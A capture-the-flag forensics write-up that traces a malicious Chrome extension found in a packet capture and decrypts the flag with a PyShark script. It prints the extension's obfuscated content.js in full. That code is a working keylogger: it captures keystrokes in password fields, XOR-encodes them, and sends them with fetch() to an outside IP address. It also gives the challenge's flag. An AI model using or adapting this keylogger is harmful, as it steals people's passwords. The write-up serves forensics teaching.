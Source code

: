 ## Challenge Writeup: x-tension

**Category:** Forensics

## Challenge Description

Trying to get good at something while watching youtube isn’t the greatest idea

The hint suggests that the user’s activity was being monitored, possibly via a **browser extension**, while they were distracted.

The challenge provided a **pcap file**: `chal.pcapng`.


### Step 1: Inspect the pcap

* Open `chal.pcapng` in **Wireshark**.
* Filter for HTTP traffic:

  ```
  http.request
  ```
* We notice a **GET request for a Chrome extension**:

  ```
  GET /FunnyCatPicsExtension.crx HTTP/1.1
  Host: 192.168.20.1:1023
  ```

💡 This is likely **where the exfiltration mechanism is hidden**.

### Step 2: Analyze the extension
I downloaded the extension from pcap file and unzip the extension.

* `manifest.json` shows a content script runs on **all URLs** (`<all_urls>`).
```json
{
  "manifest_version": 3,
  "name": "Funny Cat Pics Generator",
  "version": "1.0",
  "description": "Sends cat pics or something",
  "permissions": [
    "scripting"
  ],
  "host_permissions": [
    "<all_urls>"
  ],
  "content_scripts": [
    {
      "matches": ["<all_urls>"],
      "js": ["content.js"],
      "run_at": "document_idle"
    }
  ]
}
```
* `content.js` contains obfuscated JavaScript. After deobfuscation, we see:
```js
function _0x1e75(){const _0x598b78=['940KLmqcF','45092jwiXkN','fromCharCode','addEventListener','padStart','973KXuPbI','28240VWxZRs','3112764XnXYDi','toString','44frdLyF','814942lZkvEV','21078OiMojE','getUTCMinutes','key','target','927aCoiKZ','551255yJTaff','type','117711JQghmv','keydown','charCodeAt','length'];_0x1e75=function(){return _0x598b78;};return _0x1e75();}const _0x421cd8=_0x16e0;function _0x16e0(_0x3b1337,_0x4a4a90){const _0x1e75a5=_0x1e75();return _0x16e0=function(_0x16e0f9,_0x124fc6){_0x16e0f9=_0x16e0f9-0xac;let _0x20d287=_0x1e75a5[_0x16e0f9];return _0x20d287;},_0x16e0(_0x3b1337,_0x4a4a90);}(function(_0x4db7df,_0x152423){const _0x419a6d=_0x16e0,_0x528a3a=_0x4db7df();while(!![]){try{const _0x3bd5a6=-parseInt(_0x419a6d(0xac))/0x1+parseInt(_0x419a6d(0xb9))/0x2+parseInt(_0x419a6d(0xbf))/0x3+parseInt(_0x419a6d(0xc1))/0x4*(-parseInt(_0x419a6d(0xb2))/0x5)+parseInt(_0x419a6d(0xad))/0x6*(parseInt(_0x419a6d(0xbd))/0x7)+parseInt(_0x419a6d(0xbe))/0x8*(parseInt(_0x419a6d(0xb1))/0x9)+-parseInt(_0x419a6d(0xb8))/0xa*(-parseInt(_0x419a6d(0xb4))/0xb);if(_0x3bd5a6===_0x152423)break;else _0x528a3a['push'](_0x528a3a['shift']());}catch(_0x14838d){_0x528a3a['push'](_0x528a3a['shift']());}}}(_0x1e75,0xd956e));function getKey(){const _0x5a2d05=_0x16e0,_0x3733b8=new Date()[_0x5a2d05(0xae)]();return String[_0x5a2d05(0xba)](_0x3733b8+0x20);}function xorEncrypt(_0x2d1e8c,_0x3beac1){const _0x404414=_0x16e0;let _0x406d63='';for(let _0x58a85f=0x0;_0x58a85f<_0x2d1e8c[_0x404414(0xb7)];_0x58a85f++){const _0x384e0a=_0x2d1e8c[_0x404414(0xb6)](_0x58a85f),_0x4250be=_0x3beac1['charCodeAt'](0x0),_0x4df57c=_0x384e0a^_0x4250be;_0x406d63+=_0x4df57c[_0x404414(0xc0)](0x10)[_0x404414(0xbc)](0x2,'0');}return _0x406d63;}document[_0x421cd8(0xbb)](_0x421cd8(0xb5),_0x4e7994=>{const _0x39d3e2=_0x421cd8,_0x260e7d=_0x4e7994[_0x39d3e2(0xb0)];if(_0x260e7d[_0x39d3e2(0xb3)]==='password'){const _0x2c5a17=_0x4e7994[_0x39d3e2(0xaf)][_0x39d3e2(0xb7)]===0x1?_0x4e7994[_0x39d3e2(0xaf)]:'',_0x5e96ad=getKey(),_0x5a4007=xorEncrypt(_0x2c5a17,_0x5e96ad),_0x3a36f2=encodeURIComponent(_0x5a4007);_0x2c5a17&&fetch('http://192.9.137.137:42552/?t='+_0x3a36f2);}});
```

1. `getKey()` generates a **single-character key** based on the **current UTC minute + 0x20**.
2. `xorEncrypt()` XORs each character of the typed input with this key and encodes it as hex.
3. An event listener on `keydown` sends the **XOR-encrypted value** to a remote server:

   ```
   http://192.9.137.137:42552/?t=ENCRYPTED_HEX
   ```
4. Essentially, the extension **acts as a keylogger**, exfiltrating the flag one character at a time.

---

### Step 3: Extract encrypted characters from the pcap

* Use **PyShark** to parse HTTP requests in the pcap:

  * Filter for requests to `192.9.137.137:42552`.
  * Extract the `t` parameter (hex-encoded XORed character).
  * Compute the key using the **packet timestamp**: `UTC minute + 0x20`.

---

### Step 4: Decrypt the flag

* Each character is decrypted with:

```python
def xor_decrypt(enc_hex, key):
    enc_bytes = bytes.fromhex(enc_hex)
    return ''.join([chr(b ^ key) for b in enc_bytes])
```

* Concatenate all decrypted characters in the order of packet timestamps to reconstruct the **full flag**.

---

### Step 5: Python Script (Automation)

* The full Python script automates extraction and decryption from the pcap (see previous message).
* Running it prints the full flag.
```python
import pyshark
import urllib.parse
import time

# --- CONFIG ---
pcap_file = "chal.pcapng"
target_host = "192.9.137.137"
target_port = "42552"

# --- FUNCTION TO XOR-DECRYPT ---
def xor_decrypt(enc_hex, key):
    enc_bytes = bytes.fromhex(enc_hex)
    return ''.join([chr(b ^ key) for b in enc_bytes])

# --- OPEN PCAP ---
cap = pyshark.FileCapture(pcap_file, display_filter="http.request")

flag_chars = []

for pkt in cap:
    try:
        host = pkt.http.host
        uri = pkt.http.request_uri
        if target_host in host and target_port in host:
            # Extract 't=' parameter
            if "?t=" in uri:
                enc_param = uri.split("?t=")[1]
                enc_hex = urllib.parse.unquote(enc_param)

                # Use the packet timestamp to get the UTC minute for the key
                pkt_time = float(pkt.sniff_timestamp)
                utc_minute = time.gmtime(pkt_time).tm_min
                key = utc_minute + 0x20

                char = xor_decrypt(enc_hex, key)
                flag_chars.append(char)
    except AttributeError:
        continue

cap.close()

# --- RECONSTRUCT FULL FLAG ---
full_flag = ''.join(flag_chars)
print("[+] Full Flag:", full_flag)
```

### Step 6: Flag
```
ictf{extensions_might_just_suck}
```
